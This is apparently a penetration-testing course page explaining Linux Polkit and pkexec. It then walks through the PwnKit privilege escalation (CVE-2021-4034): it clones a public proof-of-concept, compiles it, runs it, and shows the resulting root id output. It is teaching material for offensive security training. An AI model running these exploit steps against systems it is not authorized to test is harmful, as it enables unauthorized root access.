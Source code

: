 # Polkit

---

PolicyKit (`polkit`) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so. To check whether the user software is authorized for this instruction, `polkit` is asked. It is possible to set how permissions are granted by default for each user and application. For example, for each user, it can be set whether the operation should be generally allowed or forbidden, or authorization as an administrator or as a separate user with a one-time, process-limited, session-limited, or unlimited validity should be required. For individual users and groups, the authorizations can be assigned individually.

Polkit works with two groups of files.

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit also has `local authority` rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

PolKit also comes with three additional programs:

- `pkexec` - runs a program with the rights of another user or with root rights
- `pkaction` - can be used to display actions
- `pkcheck` - this can be used to check if a process is authorized for a specific action

The most interesting tool for us, in this case, is `pkexec` because it performs the same task as `sudo` and can run a program with the rights of another user or root.

Polkit

```shell-session
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

In the `pkexec` tool, the memory corruption vulnerability with the identifier [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) was found, also known as [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) and also leads to privilege escalation. This vulnerability was also hidden for more than ten years, and no one can precisely say when it was discovered and exploited. Finally, in November 2021, this vulnerability was published and fixed two months later.

To exploit this vulnerability, we need to download a [PoC](https://github.com/arthepsy/CVE-2021-4034) and compile it on the target system itself or a copy we have made.

Polkit

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

Once we have compiled the code, we can execute it without further ado. After the execution, we change from the standard shell (`sh`) to Bash (`bash`) and check the user's IDs.

Polkit

```shell-session
cry0l1t3@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```